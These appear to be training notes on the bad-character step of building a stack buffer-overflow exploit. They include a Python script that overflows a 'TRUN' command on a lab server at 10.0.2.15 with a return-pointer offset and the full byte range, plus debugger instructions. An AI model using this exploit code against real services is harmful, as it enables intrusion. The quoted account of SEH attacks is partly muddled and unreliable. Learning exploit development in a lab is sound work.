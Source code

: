 6. Finding Bad Characters

Google `badchars`
https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/

E.g. usually hex `x00` is a bad hexadecimal character that we can use in our exploits

A simple, if a bit tedious, way of checking which characters we can use in our exploit string, is to add an entire string (containing all possible hex characters) to our exploit after the saved return pointer and compare the results in memory

We want to put the bad characters after the saved return pointer overwrite to ensure that any corruption due to bad characters does not stop the saved return pointer from being overwritten

SEH - Structured Exception Handling
- an exception handling mechanism included in most programs to make them robust and reliable
- used to handle many types of errors and any exceptions that arise during the normal execution of an application 

> SEH exploits happen when the exception handler of an application is manipulated, causing it to force an application to close. Hackers normally attack the logic of the SEH, causing it to correct nonexistent errors and lead a system to a graceful shutdown. This technique is sometimes used with buffer overflows to ensure that a system brought down by overflows is closed to prevent unnecessary and excessive damage.

> Placement may be a factor when working with SEH overwrites. You need not put the bad characters after the SEH overwrite but you do need to take note of what is causing the exception and make sure your bad characters don’t stop it from occurring. For example if your vulnerable software is throwing an exception while reading 41414141 when you are sending a long string of A’s, you need to insure that you avoid putting your bad characters at the offset that is causing that read error or else you may end up reading from a spot in memory that is mapped and readable by the application, avoiding the exception altogether.

Add badchars to our script and delete the x00 char which is always a bad character:
```
#!/usr/bin/python
import sys, socket

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

We run every badchar through our program 
Programs have particular characters and hex codes that might refer to particular commands. If that is the case, we want to make sure to remove these from our generated shell code, so it can be interpreted as we want it.

RUN PROGRAM WITHOUT THE x00 badchar cause we know it is bad in default

Hence, we parse all these through the program and check which ones.

After running the program again, need to check the hexdump

`ESP > Right Click > Follow in Dump`

Bottom left Hex dump: Text > Font > OEM (Biggest)

We go through the whole list and should have `01 02 03 ... FE FF` i.e. all the way. If something is looking funny, it is a bad char and needs to be removed 

Need to note down all hex characters that we cannot use when generating our shell code


